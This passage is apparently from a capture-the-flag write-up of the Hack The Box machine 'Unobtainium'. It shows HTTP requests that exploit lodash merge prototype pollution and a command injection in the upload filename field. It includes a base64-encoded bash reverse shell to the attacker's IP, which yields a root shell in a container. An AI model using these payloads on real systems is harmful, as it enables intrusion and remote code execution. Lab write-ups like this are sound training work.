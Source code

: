 When checking the [source of this package](https://github.com/samradical/google-cloudstorage-commands/blob/master/index.js#L7), there is an upload function that uses _exec_ to run system commands.

In the source code of _index.js_ it shows that the _PUT_ method uses _.merge_ which is vulnerable to **Prototype Pollution** and allows to inject code into objects as explained in [this blog article](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c):
```
(...)
_.merge(message, req.body.message, {
  id: lastId++,
  timestamp: Date.now(),
  userName: user.name,
(...)
```

Posting a message and changing the _canUpload_ variable to _true_ with **Prototype Pollution**:
```
PUT / HTTP/1.1
Host: unobtainium.htb:31337
(...)

{"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"test","__proto__":{"canUpload":true} }}
```

Using command injection on _/upload_ with a `ping` command:
```
POST /upload HTTP/1.1
Host: unobtainium.htb:31337
(...)

{"auth":{"name":"felamos","password":"Winter2021"},"filename":"; ping -c 1 10.10.14.3;"}
```

The `tcpdump` listener on my IP receives ICMP packets and command execution is proofed.

Encoding reverse shell command with Base64:
```
echo 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' | base64 -w 0
```

Sending reverse shell command to _/upload_:
```
{"auth":{
  "name":"felamos",
  "password":"Winter2021"
  },
  "filename":"; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzkwMDEgMD4mMQo= | base64 -d | bash"}
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell as _root_.
This box has the hostname _webapp-deployment-9546bc7cb-g7w65_ and the IP 10.42.1.24, so it is not the host box yet.

## Lateral Movement
